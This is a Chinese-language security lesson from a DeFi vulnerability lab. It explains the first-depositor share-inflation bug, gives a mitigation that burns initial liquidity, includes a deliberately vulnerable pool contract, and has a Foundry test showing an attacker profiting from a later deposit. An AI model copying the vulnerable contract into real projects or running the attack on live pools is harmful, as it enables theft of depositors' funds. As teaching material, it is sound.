 [first-deposit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/first-deposit.sol)

# 首次存款错误

**名称：** 首次存款错误

**描述：** 第一个矿池存款人可能会抢先交易，并被盗取部分存款。在这种情况下，我们可以控制变量“_supplied”。 通过存入少量贷款代币来获得矿池代币，我们可以抢先其他储户的交易，并通过大量“捐赠”抬高矿池代币的价格。 因此，攻击者可以提取比他们最初拥有的更多的贷款代币。

出现这个计算问题是因为，在 Solidity 中，如果用户的池代币值小于 1，它实际上会向下舍入到 0。

**解决办法：**

考虑在第一次存款期间铸造最少量的矿池代币并将其发送到零地址，这会增加攻击成本。 Uniswap V2 通过将前 1000 个 LP 代币发送到零地址解决了这个问题。 在这种情况下也可以做同样的事情，即当totalSupply() == 0时，将第一个最小流动性LP代币发送到零地址以实现份额稀释。

**参考：**

https://defihacklabs.substack.com/p/solidity-security-lesson-2-first

https://github.com/sherlock-audit/2023-02-surge-judging/issues/1

https://github.com/transmissions11/solmate/issues/178

**合约样例:**

```jsx
contract MyToken is ERC20, Ownable {
    constructor() ERC20("MyToken", "MTK") {
        _mint(msg.sender, 10000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract SimplePool {
    IERC20 public loanToken;
    uint public totalShares;

    mapping(address => uint) public balanceOf;

    constructor(address _loanToken) {
        loanToken = IERC20(_loanToken);
    }

    function deposit(uint amount) external {
        require(amount > 0, "Amount must be greater than zero");

        uint _shares;
        if (totalShares == 0) {
            _shares = amount;
        } else {
            _shares = tokenToShares(
                amount,
                loanToken.balanceOf(address(this)),
                totalShares,
                false
            );
        }

        require(
            loanToken.transferFrom(msg.sender, address(this), amount),
            "TransferFrom failed"
        );
        balanceOf[msg.sender] += _shares;
        totalShares += _shares;
    }

    function tokenToShares(
        uint _tokenAmount,
        uint _supplied,
        uint _sharesTotalSupply,
        bool roundUpCheck
    ) internal pure returns (uint) {
        if (_supplied == 0) return _tokenAmount;
        uint shares = (_tokenAmount * _sharesTotalSupply) / _supplied;
        if (
            roundUpCheck &&
            shares * _supplied < _tokenAmount * _sharesTotalSupply
        ) shares++;
        return shares;
    }

    function withdraw(uint shares) external {
        require(shares > 0, "Shares must be greater than zero");
        require(balanceOf[msg.sender] >= shares, "Insufficient balance");

        uint tokenAmount = (shares * loanToken.balanceOf(address(this))) /
            totalShares;

        balanceOf[msg.sender] -= shares;
        totalShares -= shares;

        require(loanToken.transfer(msg.sender, tokenAmount), "Transfer failed");
    }
}
```

***\*测试方法:\****

forge test --contracts src/test/**first-deposit.sol**-vvvv

```jsx
// 测试首次存款过程的函数
    function testFirstDeposit() public {
        // Alice的地址被设置为虚拟机中的第一个地址
        address alice = vm.addr(1);
        
        // Bob的地址被设置为虚拟机中的第二个地址
        address bob = vm.addr(2);
        
        // 从 MyTokenContract 转账 1 Ether 加 1 wei 到 Alice 的账户
        MyTokenContract.transfer(alice, 1 ether + 1);
        
        // 将 2 以太币从 MyTokenContract 转移到 Bob 的账户
        MyTokenContract.transfer(bob, 2 ether);

        // 在虚拟机中对 Alice 的帐户发起“恶作剧”
        vm.startPrank(alice);
        
        // Alice 批准 SimplePoolContract 花费 1 wei 的代币
        MyTokenContract.approve(address(SimplePoolContract), 1);
        
        // Alice 将 1 wei 存入 SimplePoolContract，收到 1 个矿池代币作为回报
        SimplePoolContract.deposit(1);

        // Alice 将 1 以太币转移到 SimplePoolContract，这会抬高矿池代币的价格
        MyTokenContract.transfer(address(SimplePoolContract), 1 ether);

        // 停止对 Alice 帐户的恶作剧
        vm.stopPrank();
        
        // 对 Bob 的帐户发起恶作剧
        vm.startPrank(bob);
        
        // Bob 批准 SimplePoolContract 花费其代币中的 2 个以太币
        MyTokenContract.approve(address(SimplePoolContract), 2 ether);
        
        // Bob向SimplePoolContract存入2个以太币，但由于价格上涨，他只收到1个矿池代币
        SimplePoolContract.deposit(2 ether);
        
        // 停止对 Bob 帐户的恶作剧
        vm.stopPrank();
        
        // 对 Alice 的帐户发起恶作剧
        vm.startPrank(alice);

        //获取MyTokenContract中SimplePoolContract的余额
        MyTokenContract.balanceOf(address(SimplePoolContract));

        // Alice 提取 1 个矿池代币并获得 1.5 以太币，从而获利
        SimplePoolContract.withdraw(1);
        
        // 判断 Alice 的余额现在应该是 1.5 以太币。 如果不是，则会抛出错误
        assertEq(MyTokenContract.balanceOf(alice), 1.5 ether);
        
        // 在控制台中记录 Alice 的余额
        console.log("Alice balance", MyTokenContract.balanceOf(alice));
    }
```

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbf5edaeb-708c-433d-b87f-9fd9a16b7633%2FUntitled.png?table=block&id=9f907b3b-45de-448e-ae5b-a3c771d9743f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)